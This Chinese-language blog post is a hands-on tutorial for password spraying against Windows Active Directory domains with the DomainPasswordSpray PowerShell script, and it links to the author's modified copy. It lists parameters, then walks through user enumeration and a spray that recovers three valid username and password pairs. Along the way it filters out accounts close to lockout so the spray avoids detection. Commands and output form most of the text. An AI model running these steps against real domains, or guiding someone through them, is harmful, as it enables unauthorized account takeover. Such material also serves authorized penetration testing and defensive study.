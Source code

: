 ```yaml
---
categories: 内网渗透
date: "2018-05-02T00:00:00Z"
description: 推荐一个Powershell脚本
title: Windows域渗透 - 用户密码枚举
url: /archivers/2018-05-02/1
---
```



## 0x00 前言

在进行Windows域渗透的时候，面对庞大的用户账号，不知该从何下手，扫描网络服务有怕搞出大动静，肿么办呢？

## 0x01 Powershell

目前已经有很多Powershell集合脚本，用于域渗透简直舒爽

今天推荐一款名字叫`DomainPasswordSpray.ps1`的脚本，主要原理是先来抓取域用户账号，然后指定密码字典进行域认证。认证通过的就是密码正确的了。

![0x00][0x00]

**GitHub项目地址：https://github.com/dafthack/DomainPasswordSpray**

由于作者的脚本有一个小瑕疵，故此我改了一下，避免抛出了一些错误。

![0x01][0x01]

**优化后的地址：http://payloads.online/scripts/Invoke-DomainPasswordSpray.txt**


## 0x02 参数说明

在代码的开头就已经有介绍了，我简单汉化一下。

    
描述：该模块主要用于从域中收集用户列表。

* 参数： `Domain` 指定要测试的域名
* 参数： `RemoveDisabled` 尝试从用户列表删除禁用的账户  
* 参数： `RemovePotentialLockouts` 删除锁定账户 
* 参数： `UserList` 自定义用户列表(字典)。 如果未指定，这将自动从域中获取
* 参数： `Password` 指定单个密码进行口令测试
* 参数： `PasswordList` 指定一个密码字典
* 参数： `OutFile` 将结果保存到某个文件
* 参数： `Force` 当枚举出第一个后继续枚举，不询问

## 0x03 使用说明

使用例子：

`C:\PS> Get-DomainUserList`

该命令将从域中收集用户列表。
    
`C:\PS> Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt`

该命令将收集域“域名”中的用户列表，包括任何未被禁用且未接近锁定状态的帐户。 它会将结果写入“userlist.txt”文件中

`C:\PS> Invoke-DomainPasswordSpray -Password Winter2016`

该命令将会从域环境中获取用户名，然后逐个以密码`Winter2016`进行认证枚举

 
`C:\PS> Invoke-DomainPasswordSpray -UserList users.txt -Domain 域名 -PasswordList passlist.txt -OutFile sprayed-creds.txt`

该命令将会从`users.txt`中提取用户名，与`passlist.txt`中的密码对照成一对口令，进行域认证枚举，登录成功的结果将会输出到`sprayed-creds.txt`

## 0x04 实战

### 获取域环境中的用户列表

**命令：**`C:\PS> Get-DomainUserList | Out-File -Encoding ascii userlist.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] There are 8 total users found.
[*] Created a userlist containing 8 users gathered from the current user's domain
```

获取的用户名：

```
C:\PS> type .\userlist.txt
Administrator
Guest
liyingzhe
krbtgt
Hack
testPass
webManager
dba
```

### 密码枚举

![0x02][0x02]

**命令：** `C:\PS> Invoke-DomainPasswordSpray -Domain 域名 -Password w!23456 -OutFile sprayed-creds.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 6 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 6 users gathered from the current user's domain
[*] Password spraying has begun. Current time is 18:45
[*] This might take a while depending on the total number of users
1 of 6 users tested2 of 6 users tested3 of 6 users tested[*] SUCCESS! User:testPass Password:w!23456
4 of 6 users tested[*] SUCCESS! User:webManager Password:w!23456
5 of 6 users tested[*] SUCCESS! User:dba Password:w!23456
6 of 6 users tested[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to sprayed-creds.txt
```

枚举的结果：

```
C:\PS > type .\sprayed-creds.txt
testPass:w!23456
webManager:w!23456
dba:w!23456
```

[0x00]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x00.png
[0x01]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x01.png
[0x02]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x02.png
